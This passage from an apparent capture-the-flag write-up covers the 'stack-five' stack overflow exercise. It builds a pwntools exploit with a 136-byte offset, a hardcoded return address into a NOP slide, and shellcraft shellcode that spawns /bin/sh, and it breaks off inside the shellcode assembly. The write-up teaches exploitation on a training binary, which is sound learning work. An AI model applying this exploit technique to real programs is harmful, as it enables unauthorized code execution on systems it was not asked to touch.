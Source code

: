 This address is the stack address. We can now update that in the exploit.

```python
rip = p64(0x7fffffffebe8 + 40) # new rip -> rsp
```

> Notice I am also adding `+ 40` to the address just to make sure we hit our nop slide.
{: .prompt-tip}

### Step 2 - nop slide

This part is pretty simple. The opcode of a nop instruction is 0x90. We use that as a raw byte in the code as `\x90`

```python
nop_slide = b'\x90' * 100
```

### Part 3 - Shellcode

For this part we can find shellcode to execute `exevce("/bin/sh")` for an amd64 linux system online. But I am going to use `shellcraft` from the pwntools library to generate the shellcode.

```python
shellcode = asm(shellcraft.linux.sh())
```

I did not have to specify architecture becuase I set the context at the start of the script.

The output of that line will be be the raw shellcode bytes resturned by `asm()`. The output of `shellcraft.linux.sh()` is the assembly code for executing `execve("/bin/sh")`.

# Exploiting

Now that we have the payload set up, the final exploit will be:

```python
#!/usr/bin/env python3

from pwn import *

# Defining binary
exe = context.binary = ELF('./stack-five', checksec=False)
p = process(exe.path)
context.update(arch="amd64")

# The offset and padding we need to overflow the buffer
OFFSET  = 136
PADDING = b'A' * OFFSET

# Building payload
rip = p64(0x7fffffffebe8 + 40) # new rip -> rsp
nop_slide = b'\x90' * 100
shellcode = asm(shellcraft.linux.sh()) # Output from shellcraft will be the assembly code below. using asm() to compile it into raw bytes

'''
Shellcode in assembly:
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
```